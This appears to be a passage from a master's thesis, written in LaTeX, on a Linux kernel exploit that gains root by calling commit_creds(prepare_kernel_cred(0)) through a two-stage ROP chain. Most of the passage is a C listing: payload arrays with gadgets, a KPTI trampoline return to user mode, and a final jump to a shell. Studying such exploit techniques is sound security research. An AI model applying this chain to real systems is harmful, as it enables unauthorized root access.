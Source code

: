 \documentclass{masterthesis}
\begin{document}
\subsection{Calling commit\_creds(prepare\_kernel\_cred(0))}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \lstinline{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item Call \lstinline{prepare_kernel_cred (0)} function saving the return value in \emph{rax}.
   \item Call \lstinline{commit_creds ()} function using the value we have in \emph{rax}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \lstinline{prepare_kernel_cred(0)} from \emph{rax} to \emph{rdi} and pass it to the \lstinline{commit_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    //As stage 1
    ...
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = 0; // rdi <- 0
    payload[off++] = 0; // dummy rbp
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ...
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    //As stage 3
    ...
    payload[off++] = returned_creds_struct; // rdi <- returned_creds_struct
    payload[off++] = 0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
\end{lstlisting} 
\end{document}
